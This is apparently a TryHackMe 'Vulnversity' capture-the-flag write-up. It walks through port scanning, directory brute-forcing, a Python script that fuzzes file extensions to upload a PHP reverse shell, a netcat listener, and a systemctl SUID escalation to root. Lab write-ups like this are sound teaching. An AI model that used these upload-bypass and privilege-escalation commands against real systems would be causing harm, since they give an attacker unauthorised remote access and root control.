# TryHackMe - Vulnversity Writeup


[Link : https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

## Enumeration

First we need to do reconnaissance by using nmap (Network Mapper) to find open ports and to understand the machine. I'm gonna run this command:

```
nmap -sC -sV -O -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -O 	:= scan for OS (operating system) 	
* -oN := output in normal format

Now our nmap scan is done. So, let's do bad thing _evil grin_ lol. Just joking okayy.



We can see this machine have 6 ports open. The result always screaming that lot of services running on ubuntu. We can see that this machine also have squid proxy and the version too. So, first maybe we can try ftp login as anonymous but unfortunately we cannot login ftp as anonymous.

This machine have http on port 3333 and running on apache web server. Let's take a look!


OH! what a lovely website. We know that they have a website and we can enumerate futher by using gobuster tool. Gobuster is a tool for searching hidden directory in the web. If you doesn't have gobuster. You.... yeah...youuu can visit this [github repos](https://github.com/OJ/gobuster).

Let's run gobuster using this command

```
gobuster dir -u http://10.10.111.81:3333/ -w /opt/directory-medium.txt --no-error
```

### Explaining gobuster flag:
* dir	  := using directory mode
* -u		:= specify url
* -w		:= specify wordlist
* --no-error := no error



So, here's the result. If you look super close but not at the monitor though jk. Gobuster found a hidden directory called /internal. Let's go to that hidden directory.



Apparently, that's directory leads us to this page a.k.a upload page. We can upload php reverse shell on that.

## Foothold/Gaining Access

But how to get php reverse shell and how to setup, even how to use it. (it's okay I got you ladies & gentlemen)

1. Go to this [site here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
2. Download it or you can copy it. If you copy it, make sure to save it in the file with php extensions. example := revshell.php
3. Open the file and change the ip address to yours tryhackme ip address, If you want to change the port. Just change it. The port in this case is going to be a listing port.

<br>
_original_

<br>
_alter with ip and port_

However, when we upload a php file to the page it's gonna response ‘extension not allowed’. Looking back at the questions ‘TASK 4’. Now we know that we can fuzz this upload page with different file extensions.

So, I gonna make python script for that. You can use burpsuite if you want to. Why I'm using python script??? because I want to learn duhhh and I'm not saying that I really good in python NO. TBH I wacthed a lot of tutorial for just simple task and I keep adding time in this box. man oh man. It's worth it tho. So here is my script

```python
#!/usr/bin/python3

import requests
import os

url = "http://10.10.111.81:3333/internal/"
action = "/index.php"

data = {
	'file':'/index.php',
	'submit':'Submit'
}

oldfile = "revshell.php"
file = "revshell"

extensions = ['.php','.php3','.php4','.php5','.phtml']

for ext in extensions:
	newfile = file + ext
	rename = os.rename(oldfile, newfile)
	
	file_to_upload = {'file': open(newfile, 'rb')}

	r = requests.post(url + action, data=data, files=file_to_upload)

	if "Extension not allowed" in r.text:
		print(f"This file not allowed : {newfile}")
	else:
		print(f"This file is allowed : {newfile}")

	oldfile = newfile
```

Let's run the script and finally yes. We got a hit boys. This page only accept .phtml extensions. COOL



Now we need to setup netcat listener to the port that we change in the our reverse shell. If you can see I'm listen to the port 6969, because I'm using this port in my reverse shell

```
nc -lnvp 6969
```
To activated our reverse shell go to this url http://10.10.111.81:3333/internal/uploads/ . But how you found the `/uploads` directory. Good questions. Just run gobuster against /internal directory. We found this.



To activated our shell just double click at our reverse shell file. Mine here name revshell.phtml but yours maybe different. I don't know because this is mine not yourssss!!!! joking of course. Please don't be offended. HAHAHAHAH jk.

Now we're in!!!!Now let's hunt the user flag. So, let's navigate ourselves to the home directory to list a user directory. WOW!!! now we know that bill the one who manage this webserver.



Let's go into bill's home directory to find user flag. Yes we got a user flag. To read this flag you need to use the `cat command`



## Privilege Escalation

How to be root. Now we can do a basic enumeration if you want. Anyways, the questions ask what the most stand out file in SUID file. To find this file called SUID we need run this command

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/
```

So, this command means find all SUID file that owns by root user. After find it, make it the file in the list using ls. If we got an errors please don't display the errors to us. 



We got all of this but how to find the one that most stand out. You can make your linux machine as the base line. Try run the same command in your box and try compare it.

In this case the file called `/bin/systemctl` the most stands out. So, we're gonna use systemctl to be root but how. Easy, just go to this site called [GTFObins](https://gtfobins.github.io/#) . Try search systemctl suid in it.

So, I don't know where is the flag are. What I'm gonna do, is to make file `/bin/bash` as `SUID`. Hmm, sound fun! With it we can be root or to be specific euid root

To use this command just take all and copy it in the box

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
After you've done copy and paste that command. 
Run `/bin/bash -p` and now become root.

Just navigate through root directory and you found the flag



## Conclusion

I’ve learned a lot today. If you have an upload page on your website make sure you use the filter options. Filter out the bad file to make your site a bit safer. Also, you must configure your file permission very-very-very-very-very good. If you see, I become root with simple misconfigure file permission and that's it.

This room so much fun and I hope you guys have fun and learn something new today.
